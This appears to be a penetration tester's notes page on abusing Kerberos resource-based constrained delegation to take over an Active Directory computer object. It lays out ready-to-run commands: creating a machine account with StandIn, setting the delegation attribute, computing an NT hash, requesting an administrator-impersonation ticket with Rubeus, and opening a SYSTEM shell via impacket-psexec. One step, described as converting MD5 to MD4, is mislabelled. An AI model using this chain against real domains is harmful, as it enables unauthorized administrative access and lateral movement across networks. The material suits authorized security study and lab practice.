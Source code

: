 ```yaml
---
description: >-
  Gaining code execution with elevated privileges on a remote computer if you
  have WRITE privilege on that computer's AD object.
---
```


# Kerberos Resource-based Constrained Delegation: Computer Object Takeover

## Overview

* You need to have <mark style="color:yellow;">Write privilege on a Domain AD Object</mark>
* Examples include <mark style="color:yellow;">WriteAll</mark> or <mark style="color:yellow;">GenericAll</mark>!
* This usually stems from a user as we can see in the picture below

What does that look like in BloodHound?

<figure><img src="../../../.gitbook/assets/image (5) (1) (5).png" alt=""><figcaption></figcaption></figure>

* We can manipulate the target however we wish
* In other words, we can create or modify properties on the machine account

## BloodHound's Abuse Info (GenericAll)

* We can <mark style="color:yellow;">create a new machine account using a tool called</mark> <mark style="color:red;">**PowerMad**</mark>
* <mark style="color:yellow;">Modify the existing DC account so that it</mark> <mark style="color:red;">trusts</mark> <mark style="color:yellow;">our new machine account</mark>

### <mark style="color:yellow;">When we have Resource-Based Constrained Delegation...</mark>

* The computers specify WHICH machines they trust delegation authentication to
* Since we can write to the DC, we can tell the DC to trust our newly created/fake account
* Once we create the fake account, we can set <mark style="color:yellow;">msDS-AllowedToActOnBehalfOfOtherIdentity</mark> field of the computer account that we are taking over&#x20;
* The DC will trust this computer account with delegation
* We then use <mark style="color:yellow;">Rubeus</mark> to <mark style="color:yellow;">impersonate the Administrator on the DC</mark>
* We need PowerView, PowerMad, and Rubeus

### However, XCT has a better way!

* Upload <mark style="color:yellow;">Rubeus</mark> and <mark style="color:yellow;">StandIn</mark>
  * StandIn is a .NET native solution to perform resource-based constrained delegation

<mark style="color:yellow;">Rubeus:</mark>

{% embed url="https://github.com/GhostPack/Rubeus" %}

<mark style="color:yellow;">StandIn:</mark>

{% embed url="https://github.com/FuzzySecurity/StandIn/releases" %}

* Create a new computer account using StandIn

```
.\StandIn.exe --computer hacker --make
```

* Obtain SID

```
Get-ADComputer -Filter * | Select-Object Name, SID
```

* Set attribute with StandIn

```
.\StandIn.exe --computer COMPUTER_NAME_HERE --sid SID_HERE

AllowedToActOnBehalfOfOtherIdentity
```

* Use Python to convert MD5 to MD4

```
python3

import hashlib,binascii
hash = hashlib.new('md4', "PLACE_MD5_HASH_HERE".encode('utf-16le')).digest()
print(binascii.hexlify(hash))
```

* Now we can use Rubeus to craft a ticket to impersonate the administrator

```
.\Rubeus.exe s4u /user:hacker /rc4:MD4_HASH_HERE /impersonateuser:administrator /msdsspn:cifs/computer_name_here /nowrap /ptt

Ticket successfully imported
```

* Now check with klist

```
klist
```

* Unfortunately, we need to do this remotely, not locally
* Copy the ticket obtained from Rubeus above and copy it locally

```
subl ticket.b64 #Paste ticket in here

cat ticket.b64 | base64 -d > ticket.kirbi

impacket-ticketConverter ticket.kirbi ticket.ccache

export KRB5CCNAME='pwd'/ticket.ccache

klist #We can now see the ticket
```

* Lastly, we need to use the ticket!

```
impacket-psexec -k -no-pass domain.local/administrator@computer_name_here -dc-ip 192.168.114.175

C:\Windows\system32>
```

## Kerberos Delegation VS Resource-Based Constrained Delegation

* In unconstrained and constrained Kerberos delegation, a computer/user is told what resources it can delegate authentications to
* In resource based Kerberos delegation, computers (resources) specify who they trust and who can delegate authentications to them

## Reference

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution" %}

{% embed url="https://www.youtube.com/watch?v=xMTCZt5DRB0" %}
